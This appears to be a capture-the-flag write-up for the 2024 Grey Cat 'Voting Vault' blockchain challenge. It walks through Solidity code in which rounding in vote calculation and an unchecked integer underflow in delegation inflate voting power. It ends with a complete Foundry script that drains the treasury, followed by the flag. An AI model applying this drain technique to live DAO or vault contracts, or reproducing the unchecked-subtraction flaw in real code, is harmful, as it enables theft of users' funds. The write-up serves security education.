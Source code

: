 ```yaml
---
title: Blockchain - Voting Vault
description: 2024 | Grey Cat The Flag | Blockchain
tags:
    - smart contract
    - double spending
    - precision loss
    - integer underflow
---
```


## Description

In the spirit of decentralization, GreyHats is now a DAO! Vote with your GREY tokens to decide how our funds are spent.

> nc challs.nusgreyhats.org 30401

> [Challenge Files](https://github.com/MiloTruck/evm-ctf-challenges/tree/8763f5fd12c3179227ec9cac0b21b959c6144dca/src/voting-vault)

## Solution

- 10,000 GREY is deposited into the treasury. To solve the challenge, we need to drain the treasury by creating a withdrawal proposal and gathering enough votes to execute it
- Votes can be obtained by locking GREY for at least 30 days. The voting power can be transferred to others through `VotingVault::delegate()`, and can be done any number of times

    ```js
    function delegate(address newDelegatee) external {
        require(newDelegatee != address(0), "cannot delegate to zero address");

        (UserData storage data, address delegatee) = _getUserData(msg.sender);
        Deposit[] storage deposits = data.deposits;

        data.delegatee = newDelegatee;

        uint256 length = deposits.length;
        if (length == 0) return;

        Deposit storage lastUnlockedDeposit = deposits[data.front];
        Deposit storage lastDeposit = deposits[length - 1];
        uint256 amount = lastDeposit.cumulativeAmount - lastUnlockedDeposit.cumulativeAmount;
        
        uint256 votes = _calculateVotes(amount);
        _subtractVotingPower(delegatee, votes);
        _addVotingPower(newDelegatee, votes);
    }
    ```

- Each person can only vote once for each proposal, but the voting power is reusable. The intuitive idea is to transfer the voting power to other accounts and double spend the votes

    ```js
    function vote(uint256 proposalId) external {
        require(!voted[proposalId][msg.sender], "already voted");
        voted[proposalId][msg.sender] = true;

        uint256 votingPower = VAULT.votingPower(msg.sender, block.number - 1);
        proposals[proposalId].votes += votingPower;
    }
    ```

- The minimum number of votes required to execute a withdrawal proposal is 1,000,000, while the maximum number of votes we can obtain by locking GREY is 1,300. Due to the limitation of `vote()` function, which only obtains the historical voting power of the previous block, we can only vote once in each block. It is not feasible to reach the threshold and execute the proposal within the validity period of the instance
- When changing the delegatee, the voting power of the previous delegatee will be subtracted. However, the calculation is done within an unchecked block. If `votes` is larger than `oldVotes`, an integer underflow could occur leading to a significant increase in the voting power of the old delegatee

    ```js
    function _subtractVotingPower(address delegatee, uint256 votes) internal {
        uint256 oldVotes = history.getLatestVotingPower(delegatee);
        unchecked { 
            history.push(delegatee, oldVotes - votes); 
        }
    }
    ```

- The number of votes a user receives when locking GREY is calculated based on the amount of GREY being locked. However, when updating the delegatee, the number of transferred votes is calculated based on the **total number** of locked GREY

    ```js
    function lock(uint256 amount) external returns (uint256) {
        ...
        uint256 votes = _calculateVotes(amount);
        _addVotingPower(delegatee, votes);
        GREY.transferFrom(msg.sender, address(this), amount);
        ...
    }

    function delegate(address newDelegatee) external {
        ...
        Deposit storage lastUnlockedDeposit = deposits[data.front];
        Deposit storage lastDeposit = deposits[length - 1];
        uint256 amount = lastDeposit.cumulativeAmount - lastUnlockedDeposit.cumulativeAmount;
        
        uint256 votes = _calculateVotes(amount);
        _subtractVotingPower(delegatee, votes);
        _addVotingPower(newDelegatee, votes);
    }
    ```

- There is a potential loss of precision when calculating votes. Specifically, the number of votes calculated based on the total number of locked GREY could be greater than the number of votes obtained by locking the same amount of GREY several times

    ```js
    function _calculateVotes(uint256 amount) internal pure returns (uint256) {
        return amount * VOTE_MULTIPLIER / 1e18;
    }
    ```

### Exploitation

```js
// forge script Solve --broadcast -vvv --rpc-url $RPC_URL --slow
contract Solve is Script {
    function run() public {
        Setup setup = Setup(vm.envAddress("INSTANCE"));
        uint priv = vm.envUint("PRIV");

        GREY grey = setup.grey();
        VotingVault vault = setup.vault();
        Treasury treasury = setup.treasury();
        
        vm.startBroadcast(priv);
        setup.claim();
        grey.approve(address(vault), 10);
        vault.lock(1);
        vault.lock(9);

        treasury.propose(address(grey), 10000 ether, vm.addr(priv));

        vault.delegate(address(0x1337));
        vm.roll(block.number + 1);  // to pass the local simulation
        treasury.vote(0);

        treasury.execute(0);
        require(setup.isSolved());
        vm.stopBroadcast();
    }
}
```

### Flag

> grey{rounding_is_dangerous_752aa6bb8b6a9f61}
